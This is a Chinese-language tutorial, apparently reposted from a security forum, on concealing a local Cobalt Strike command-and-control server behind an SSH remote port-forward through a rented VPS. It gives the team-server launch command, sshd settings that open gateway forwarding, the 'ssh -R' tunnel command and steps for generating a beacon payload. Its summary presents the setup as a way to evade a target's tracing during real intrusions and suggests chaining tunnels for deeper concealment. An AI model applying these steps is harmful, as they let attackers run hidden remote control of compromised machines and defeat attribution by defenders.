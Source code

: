 # 尝试将本地 C2 隐匿于 SSH 加密隧道中

> 原文：[https://www.zhihuifly.com/t/topic/3649](https://www.zhihuifly.com/t/topic/3649)

# 尝试将本地 C2 隐匿于 SSH 加密隧道中

## 0x01 大致思路拓扑说明

![image](img/916a359b52890d3f1c84f62c127ee838.png)

> 思路其实非常简单,首先,先在本地把 CobaltStrike 团队服务器 [ 即 C2 服务器 ] 起起来,然后再拿本地的 CobaltStrike 客户端连上去,接着,便是整个过程最关键的一步,建立 ssh 隧道并执行远程端口转发,谁和谁建呢? 也就是 本地的 linux 和 自己的 vps 建,远程转发的意思其实就是,当公网访问 vps 的某个指定端口时,就直接把这个端口的流量转到我本地机器的某个端口上,假如,本地机器机器的这个端口正好是 比如,CobaltStrike 类似这种监听器的端口,这意味着什么就很都清楚了,也就是所谓的本地 C2 beacon 上线，如果弟兄们真正理解了 ssh 隧道的远程转发,其实这些真的都挺简单的,单单只是作为使用者的我们来讲,完全不存在什么太多的技术含量在里面,ok,废话不多讲,来看实际操作

## 0x02 首先,到本地 linux 机器上启动 CobaltStrike 团队服务器[ 即 C2 服务器 ] 和 CobaltStrike 客户端,如下

> 本地启动 CS 团队服务器

```
# ./teamserver 192.168.3.137 admin 
```

![image](img/1cc9e1c1d4bbde31369730bfcebae570.png)

> 然后启动 CS 客户端连到团队服务器上,并创建一个常规 http 反向监听器,监听 80 端口,注意,反向监听器是直接监听的本地 ip

![image](img/0fa9da04ccea338cb5223a1e99918702.png)

> 接着,再创建一个 CS 外部监听器[协议,端口要和上面保持一致],这个外部监听器的主要作用就是把回连的流量先弹到我们公网的 VPS 机器上,因为此处全部是用域名在操作,所以,事先务必先添加一条指向 VPS 的 A 记录,如下

![image](img/cdf1ee0fa64488baf8d62c3e0a4b0ebb.png)

![image](img/27434cfa86509cb60072c3b72839c4ee.png)

![image](img/9c69ae6124f646ec0fc09f5e85860eb7.png)

> 最后,再用上面创建的外部监听生成一个 exe payload

![image](img/0881fd582d121850add4ca589ba75736.png)

## 0x03 其次,开始尝试在 本地 linux 和 vps 机器 之间建立 ssh 隧道并执行 远程端口转发, 如下

> 先开启 vps ssh 转发

```
# vi /etc/ssh/sshd_config
AllowTcpForwarding yes
GatewayPorts yes
TCPKeepAlive yes
PasswordAuthentication yes
# systemctl restart sshd.service 重启 ssh 服务 
```

> 建立隧道并执行远程转发,即把来自外部的 80 端口流量全部转到本地 192.168.3.137 的 80 端口上,而这个端口正好又是上面事先准备好的 CS 的反向监听器端口,后果就是, beacon 直接上线

```
# ssh -C -f -N -g -R 0.0.0.0:80:192.168.3.137:80 root@mail.first.com -p 22 
```

![image](img/4b0bbb533edada1e5f04617d37aec36e.png)

> 平时记得养成习惯,远程转发建好以后,就立马就到 vps 上去看看对应端口到底有没有起来,别等了半天,一排查发现,隧道都不通,岂不尴尬,尽量别把时间浪费在这种没必要的地方

![image](img/b4ab1425ba963ec73c7dfaf561ef73b6.png)

## 0x04 最终,本地 C2 beacon 上线效果

> 如下,从目标机器的网络连接中,几乎是看不到任何的连接痕迹,暂时已经达到了我们的 "隐蔽需求"

![image](img/ca06d311499a2c83804953772c38b4df.png)

> 从 web log 我们也清晰的看到,走的全部都是本地 ip

![image](img/7756a653a0c13aa0a771f2ab7ae3a330.png)

## 小结:

至此为止,关于如何利用 ssh 隧道的远程端口转发来深度隐藏 C2 服务器基本也就说完了,实战证明,这种方式的稳定性暂时还是很不错的,相比之前的 C2 隐藏方式,这种方式的优劣势都非常明显,优势就在于避免直接把自己的 C2 服务器暴露在公网中,而且非常的灵活隐蔽, 灵活在哪儿呢? 一旦发现对方可能在溯源, 我们可以立即切断连接,不过,灵活中劣势也同时被凸显了出来,此方式并不适合拿来做长控,只适合临时渗透阶段用[ 比如,你可以暂时拿这种方式渗透,然后再用其它方式长控 ],隐蔽又在哪儿呢? 此处我只演示了最简单的单层 SSH 隧道,其实,在实战中,你完全可以将 SSH 隧道的 远程 和 本地端口转发 灵活配合起来实现多级的 SSH 隧道级联 隐藏,说到这儿,想必弟兄们都已经都很非常了然了,ok,废话不多讲,有任何问题,弟兄们及时反馈,同时也非常欢迎大家来一起深度讨论交流,祝好运